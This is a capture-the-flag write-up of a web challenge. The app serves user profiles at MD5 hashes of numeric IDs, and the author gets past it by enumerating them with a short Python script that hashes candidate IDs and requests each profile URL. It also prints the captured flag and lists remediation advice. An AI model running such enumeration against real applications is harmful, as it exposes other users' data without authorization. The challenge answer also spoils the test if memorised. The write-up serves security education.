


# IDOR + Hash Enumeration

## Challenge Info

- **Category**: Web Exploitation
- **URL**: `http://crystal-peak.picoctf.net:49455`
- **Points**: Medium
- **Severity**: High
- **Status**: Compromised ✓

## Executive Summary

During a targeted security assessment of an organization's internal portal, a high-severity **Insecure Direct Object Reference (IDOR)** vulnerability was identified. The application uses MD5-hashed user IDs to serve profile pages but lacks any backend session validation. By reverse-engineering the ID-to-hash mapping and performing a systematic enumeration of the ID space, I was able to bypass authentication controls and access the administrative profile, leading to a complete compromise of sensitive data (the flag).

**Key Finding**: The application relies on "security through obscurity" by hashing numeric IDs, which provides no protection against brute-force enumeration when the hashing algorithm is weak (MD5) and the ID space is predictable.

## Challenge Analysis

The application is a user profile portal built on Node.js/Express. The primary objective was to access the administrative profile, which was not directly exposed through the UI.

### 1. Reconnaissance Phase
The assessment began with a review of the landing page source code. A critical information disclosure was identified in an HTML comment, revealing hardcoded credentials for a guest account.



- **Identified Credentials**: `guest@picoctf.org` / `guest`

### 2. Vulnerability Identification (IDOR)
After logging in with the discovered credentials, I was redirected to:
`/profile/user/e93028bdc1aacdfb3687181f2031765d`

The page displayed: **"Access level: Guest (ID: 3000)"**.

Observing that the profile identifier was a 32-character hexadecimal string, I suspected it was a hash of the numeric ID `3000`.

- **Verification**: `echo -n "3000" | md5sum` → `e93028bdc1aacdfb3687181f2031765d`

This confirmed that the backend retrieves profiles based on the **MD5 hash of the numeric user ID**, and more importantly, it does so without verifying if the current session is authorized to view that specific ID.

## Exploit Development & Walkthrough

### 1. Strategy
Since MD5 is a fast hashing algorithm and the ID space was small (hinted to be around 20 employees), I developed a Python script to:
1.  Iterate through logical ID ranges (1-30 for low-index admins, and 2980-3021 around my own ID).
2.  Compute the MD5 hash for each candidate ID.
3.  Request the corresponding profile URL.
4.  Filter the response for the "picoCTF" flag format.

### 2. Exploitation Script
```python
import hashlib
import requests

base_url = "http://crystal-peak.picoctf.net:49455/profile/user"
# Testing logical ranges for potential admin IDs
id_ranges = list(range(1, 30)) + list(range(2980, 3021))

for i in id_ranges:
    h = hashlib.md5(str(i).encode()).hexdigest()
    r = requests.get(f"{base_url}/{h}")
    
    if "not found" not in r.text.lower() and r.status_code == 200:
        if "picoCTF" in r.text:
            print(f"[!] FLAG FOUND at ID {i} ({h})")
            print(f"Response: {r.text}")
            break
```

### 3. Execution & Discovery
Running the script revealed that the administrative user was assigned **ID 3012**.



- **Admin Hash**: `5a01f0597ac4bdf35c24846734ee9a76`
- **Captured Flag**: `picoCTF{id0r_unl0ck_8b02a9fd}`

## The Real Lesson

**Hashing is NOT an Authorization Control.**

This lab demonstrates two critical failures in modern web design:
1.  **Misplaced Trust**: The server assumed that because an attacker couldn't "see" the plaintext ID in the URL, they couldn't guess the identifier.
2.  **Missing Access Control**: Even if the identifier were a strong UUID, the server must still verify that the logged-in user has the permission to access that specific resource.

## Remediation Recommendations

1.  **Implement Server-Side Authorization**: **(Critical)** Every request to a sensitive resource must be verified against the current user's session. The backend should check: *"Does User A have permission to view Profile B?"*
2.  **Avoid Predictable IDs**: Use UUID v4 (Universally Unique Identifiers) for resource referencing to make enumeration effectively impossible.
3.  **Secure Build Process**: Ensure no sensitive comments or credentials are left in production HTML/JavaScript.
4.  **Avoid Weak Hashes**: Never use MD5 for security-sensitive operations. If a hash is required for obfuscation, use a salted and keyed HMAC or a strong cryptographic hash, though this is still secondary to proper authorization.

## Tools Used
- Python 3 (Requests, Hashlib)
- Browser DevTools
- `md5sum` utility

---

*Writeup by Vibhor Prasad | Security Assessment Division*
